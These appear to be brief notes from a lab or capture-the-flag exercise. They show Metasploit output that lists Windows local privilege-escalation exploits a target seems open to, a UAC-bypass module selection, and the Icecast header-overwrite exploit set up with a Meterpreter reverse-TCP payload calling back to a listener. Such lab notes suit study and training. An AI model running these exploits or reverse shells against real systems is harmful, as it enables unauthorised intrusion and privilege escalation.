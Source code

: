 ### WebServer:

### Connection:

### Vulnarbility

    10.10.90.191 - Collecting local exploits for x86/windows...
    [*] 10.10.90.191 - 34 exploit checks are being tried...
    [+] 10.10.90.191 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
    

use exploit/windows/local/bypassuac_eventvwr



### Exploration:

    msf5 exploit(windows/http/icecast_header) > search icecast
    
    Matching Modules
    ================
    
       #  Name                                 Disclosure Date  Rank   Check  Description
       -  ----                                 ---------------  ----   -----  -----------
       0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite
    
    
    msf5 exploit(windows/http/icecast_header) > show options
    
    Module options (exploit/windows/http/icecast_header):
    
       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS  10.10.239.197    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT   8000             yes       The target port (TCP)
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.9.60.67       yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    